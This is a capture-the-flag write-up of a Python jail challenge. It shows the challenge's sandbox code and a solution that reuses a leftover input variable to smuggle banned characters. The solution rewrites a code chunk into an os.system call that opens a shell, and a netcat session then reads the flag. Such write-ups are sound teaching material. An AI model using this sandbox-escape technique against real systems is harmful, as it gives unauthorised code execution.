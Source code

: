 # not-a-last-minute-pyjail

personally it was like a 3/10 difficulty because of the unintended and because there's really not much to look at here

made by the wrong quasar

big thanks to spencerpogo for helping me about the code chunk modification discovery in this chall

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/e0e7ff0b-dec8-4ef8-9a78-7ce46e35d5b9)

server.py
```py
#!/usr/local/bin/python
# Copyright 2022 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
#
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#

if __name__ != "__main__":
    1/0  # Not a module

import ast
import sys
import os


def verify_secure(m):
    for x in ast.walk(m):
        match type(x):
            case (ast.Lambda | ast.alias | ast.Assign | ast.Add | ast.Subscript | ast.Dict | ast.Store | ast.arg | ast.Pow | ast.Expr | ast.Div | ast.BinOp | ast.Sub | ast.Name | ast.Mult | ast.Module | ast.Load | ast.Constant | ast.Import | ast.ClassDef | ast.arguments | ast.UnaryOp | ast.USub):
                continue
            case _:
                print(f"ERROR: Banned statement {x}")
                return False
    return True


abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END, will be split by --CHUNK)")
source_code = ""
while True:
    line = input() + "\n"
    if line.startswith("--END"):
        break
    source_code += line

if '@' in source_code or '.' in source_code or '(' in source_code or ')' in source_code or '#' in source_code:
    print("ERROR: @.()# are banned")
    exit(1)


chunks = source_code.split("--CHUNK\n")
for chunk in chunks:
    tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
    if not verify_secure(tree):
        exit(1)

for chunk in chunks:  # Safe to execute!
    print("-- Executing safe code:")
    print(chunk)
    exec(chunk)
```

## solution

there were a bunch of unintendeds with this one but the unintended i found was weird and probably might not be patched on the first go-around of patches if the other quasar patched it instead of doing it last minute (does that make sense)

the vuln here is that the "chunks" can modify each other, and also, we can get access to restricted characters by using the "line" variable, which stays in scope.

because of the following code, we can put in `--END.()` and get arbitrary code execution
```py
    if line.startswith("--END"):
        break
```

exec runs the compiled code chunks, so we can't easily modify a code chunk, but we can replace one of the chunks with a string to execute that string.

because of the startswith, the line variable remains in the global scope while not being eligible for verify_secure detection as it's not part of the source code

therefore:

```console
quasar@quasar098:~$ nc vsc.tf 3445
-- Please enter code (last line must contain only --END, will be split by --CHUNK)
chunks[1] = "os"+line[5]+"system"+line[6]+'"/bin/sh"'+line[7]
--CHUNK
a
--END.()
$ ls
run
$ ls /
app
bin
boot
dev
etc
flag.poyvHVzi1MUB72nR0gly.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /flag*
vsctf{PYTHONNNNNN_SO_FUNNN}
```
